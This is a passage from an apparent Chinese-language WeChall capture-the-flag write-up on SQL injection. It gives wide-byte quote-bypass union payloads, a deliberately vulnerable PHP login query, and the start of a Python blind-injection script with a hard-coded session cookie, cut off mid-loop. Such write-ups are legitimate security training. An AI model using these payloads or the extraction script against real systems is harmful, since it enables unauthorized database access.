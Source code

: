 利用方式：

使用 limit 猜测一下，admin 的位置

```
username=Admin%bf' union select username from users limit 1,1 -- 
```

或者直接构造一个 admin 出来

```
username=%b3%27+union+select+Char(65,100,109,105,110)/* 
```

当然这些方法，主要是为了绕过单引号，还有一些有趣的利用

```
username=%bf%27 OR CONV(username,36,10) = 17431871# 
```

## Blinded by the light

* * *

盲注，参数没用经过过滤，猜测一个 32 位的 hash，但是要求在 128 次之内猜解出来，使用二分即可。

漏洞代码：

```
function blightVuln($password)
{
        # Do not mess with other sessions!
        if ( (strpos($password, '/*') !== false) || (stripos($password, 'blight') !== false) )
        {
                return false;
        }

        $db = blightDB();
        $sessid = GWF_Session::getSession()->getID();
        $query = "SELECT 1 FROM (SELECT password FROM blight WHERE sessid=$sessid) b WHERE password='$password'";
        return $db->queryFirst($query) !== false;
}

```

利用脚本：

常规的二分盲注

```
import urllib
import urllib2
def doinject(payload):
    url = 'http://www.wechall.net/challenge/blind_light/index.php'
    values = {'injection':payload,'inject':'Inject'}
    data = urllib.urlencode(values)
    #print data
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7205526-10787-ZSOZPXjj8gf4BE7K')
    response = urllib2.urlopen(req)
    the_page = response.read()
    if (the_page.find("Welcome back")>0):
        return True
    else:
        return False

wordlist = "0123456789ABCDEF"
res = ""
for i in range(1,33):
    s=0
```